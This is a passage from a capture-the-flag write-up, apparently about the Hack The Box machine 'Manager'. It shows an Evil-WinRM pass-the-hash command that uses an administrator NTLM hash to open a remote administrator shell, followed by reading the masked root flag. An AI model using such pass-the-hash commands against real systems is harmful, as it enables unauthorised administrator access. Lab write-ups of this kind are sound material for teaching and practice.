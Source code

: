With the hash, I can get a shell as administrator using
[Evil-WinRM](https://github.com/Hackplayers/evil-winrm):



    oxdf@hacky$ evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef

    Evil-WinRM shell v3.4

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Administrator\Documents>



And grab `root.txt`:



    *Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
    589f36d6************************







